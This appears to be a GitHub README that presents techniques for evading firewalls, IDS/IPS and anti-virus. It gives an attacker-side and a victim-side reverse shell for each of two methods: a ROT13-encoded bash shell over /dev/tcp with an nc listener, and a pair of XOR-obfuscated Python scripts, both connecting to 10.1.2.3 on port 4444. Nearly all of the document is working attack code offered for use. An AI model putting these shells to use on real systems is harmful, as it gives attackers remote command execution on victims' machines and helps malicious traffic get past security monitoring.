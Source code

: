 # evasion
Techniques for evading firewalls and anti-malware detection.

Acronyms used:
* UTM - Unified Threat Management.  A class of nextgen firewalls with integrated security features.
* IDS - Intrusion Detection System.  A device that detects malicious network traffic.
* IPS - Intrusion Prevention System.  A device that detects and blocks malicious network traffic.
* A/V - Anti-Virus, Anti-Malware, etc.

## ROT13 encoded reverse shell using bash TCP device

This technique is useful for getting a reverse shell through a UTM firewall, IDS or IPS.

In this example the attacking host is on IP address 10.1.2.3 and listens on port 4444 for the reverse shell from the victim.

( attacker )<br />
[ linux command ]<br />
`IFS=''; (while read -r lin; do echo $lin | tr 'A-Za-z' 'N-ZA-Mn-za-m'; done) | nc -nlvp 4444 | tr 'A-Za-z' 'N-ZA-Mn-za-m'`<br />

( victim )<br />
[ linux command ]<br />
`exec 5<>/dev/tcp/10.1.2.3/4444; /bin/bash 2>&1 <(while read -r lin; do echo $(echo $lin | stdbuf -i0 -o0 -e0 tr 'A-Za-z' 'N-ZA-Mn-za-m'); done <&5) | stdbuf -i0 -o0 -e0 tr 'A-Za-z' 'N-ZA-Mn-za-m' >&5; exec 5<&-`<br />

## XOR obfuscated reverse shell using python

This technique is useful for getting a reverse shell through a UTM firewall, IDS or IPS.

In this example the attacking host is on IP address 10.1.2.3 and listens on port 4444 for the reverse shell from the victim.

( attacker )<br />
[ python script ]<br />
```python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(("0.0.0.0", 4444))
s.listen(2)
print "Listening... "
(client, (ip, port)) = s.accept()
print " Received connection from : ", ip
while True:
  command = raw_input('~$ ')
  encode = bytearray(command)
  for i in range(len(encode)):
    encode[i] ^=0x5A
  client.send(encode)
  en_data=client.recv(2048)
  decode = bytearray(en_data)
  for i in range(len(decode)):
    decode[i] ^=0x5A
  print decode
client.close()
s.close()
```

( victim )<br />
[ python script ]<br />
```python
import socket,subprocess,sys
RHOST = "10.1.2.3"
RPORT = 4444
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))
while True:
  data = s.recv(1024)
  en_data = bytearray(data)
  for i in range(len(en_data)):
    en_data[i] ^=0x5A
  comm = subprocess.Popen(str(en_data), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
  STDOUT, STDERR = comm.communicate()
  en_STDOUT = bytearray(STDOUT)
  for i in range(len(en_STDOUT)):
    en_STDOUT[i] ^=0x5A
  s.send(en_STDOUT)
s.close()
```
